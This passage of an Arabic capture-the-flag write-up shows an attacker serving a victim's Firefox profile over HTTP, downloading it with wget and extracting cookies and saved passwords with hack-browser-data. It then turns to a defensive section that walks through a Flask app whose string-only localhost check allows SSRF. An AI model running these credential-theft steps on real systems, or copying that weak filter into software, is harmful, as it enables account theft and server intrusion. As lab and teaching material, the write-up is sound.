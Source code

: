 ```bash
#CTF server
bash-4.4# cd /home/charles/.mozilla

bash-4.4# python3 -m http.server 8081

#My server
$ wget http://<TARGET_IP>:8081/firefox/ -r -nH

$ ./hack-browser-data -p firefox/8k3bf3zp.charles -b firefox -f json
level=WARN source=browser.go:98 msg="find browser success" browser=firefox-8k3bf3zp.charles
level=WARN source=browserdata.go:56 msg="export success" filename=firefox_8k3bf3zp_charles_cookie.json
level=WARN source=browserdata.go:56 msg="export success" filename=firefox_8k3bf3zp_charles_password.json
level=WARN source=browserdata.go:56 msg="export success" filename=firefox_8k3bf3zp_charles_bookmark.json
level=WARN source=browserdata.go:56 msg="export success" filename=firefox_8k3bf3zp_charles_history.json

$ cat results/firefox_8k3bf3zp_charles_password.json
[
  {
    "UserName": "Charles",
    "Password": "REDACTED",
    "LoginURL": "",
    "CreateDate": "2024-03-16T13:40:58+03:00"
  }
]
```
## الفريق الأزرق، إقفال الثغرة
خلينا نشيك على السورس كود ونشوف كيف السيرفر يتعامل مع روابط الصور- للتذكير، دخلنا على السيرفر من خلال ثغرة SSRF من خلال خاصية رفع الصور باستخدام الروابط- في السيرفر راح أفتح ملف app.py:
```python
...
def is_local(url):
    # Check if the URL is localhost or 127.0.0.1
    if 'localhost' in url or '127.0.0.1' in url or '0.0.0.0' in url:
        return True
    return False

    app = Flask(__name__)
    UPLOAD_FOLDER = 'uploads'
    app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
    os.makedirs(UPLOAD_FOLDER, exist_ok=True)
...
def view_image():
    image_url = request.form.get('image_url', '')
    url = request.form.get('www', '')
    if is_local(url):
        abort(403)  # Return a forbidden error if the URL contains localhost or 127.0.0.1
    
    if url:
        return requests.get(url).text
    return render_template('view.html', image_url=image_url)
...
```
طريقة التحقق من الرابط سطحية نوعا ما، السكربت قاعد يشوف "النص"ب حق الرابط لكن مو قاعد يتحقق من عنوان IP حق الدومين اللي في الرابط، اللي أبغى أسويه هو إني آخذ الدومين بعدين أعطيه ل DNS Server وأشوف الآي بي اللي طلع لي، إذا كان يوجه على السيرفر المحلي localhost راح أحظر الطلب:
